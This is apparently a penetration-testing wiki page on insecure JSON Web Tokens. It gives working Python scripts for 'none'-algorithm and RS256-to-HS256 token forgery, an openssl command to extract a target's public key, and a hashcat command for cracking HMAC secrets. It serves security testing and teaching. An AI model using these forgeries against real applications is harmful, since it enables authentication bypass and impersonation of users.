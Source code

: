 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens \(JWTs\) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts \(header, payload, signature\) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```text
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` \(or `none`, `NONE`, `nOnE`\) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Cracking the secret

When JWT use HMAC-SHA256/384/512 algorithms to sign the payload, tester can try to find the secret used if it weak enough. [JWT cracker](https://github.com/lmammino/jwt-cracker) \(JavaScript\) and [JWT tool](https://github.com/ticarpi/jwt_tool) \(Python\) are tools that testers can use to bruteforce JWT secrets.

JWT secrets can also be cracked using hashcat \(see the [AD credential cracking](../../ad-ds/movement/credentials/cracking.md) page for more detailed info on how to use it\).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one \(for algos ES256, ES384, ES512\) or two \(for algos RS256, RS384, RS512\) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" caption="" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" caption="" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" caption="" %}

{% embed url="https://jwt.io/" caption="" %}


